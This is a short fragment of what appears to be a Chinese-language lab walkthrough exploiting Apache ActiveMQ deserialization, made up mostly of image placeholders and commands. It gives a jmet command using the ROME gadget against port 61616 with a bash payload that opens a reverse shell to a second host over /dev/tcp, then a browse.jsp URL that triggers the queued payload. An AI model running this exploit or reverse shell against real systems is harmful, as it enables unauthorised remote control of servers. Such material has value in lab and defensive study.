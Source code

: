 ![image-20250408183948813](./assets/image-20250408183948813.png)





```
java -jar jmet-0.1.0-all.jar -Q reverse_shell -I ActiveMQ -s -Y "bash -i >& /dev/tcp/192.168.1.21/443 0>&1" -Yp ROME 192.168.1.15 61616
```

![image-20250408190841261](./assets/image-20250408190841261.png)



访问

```
http://192.168.1.15:8161/admin/browse.jsp?JMSDestination=reverse_shell
```

![image-20250408190906640](./assets/image-20250408190906640.png)
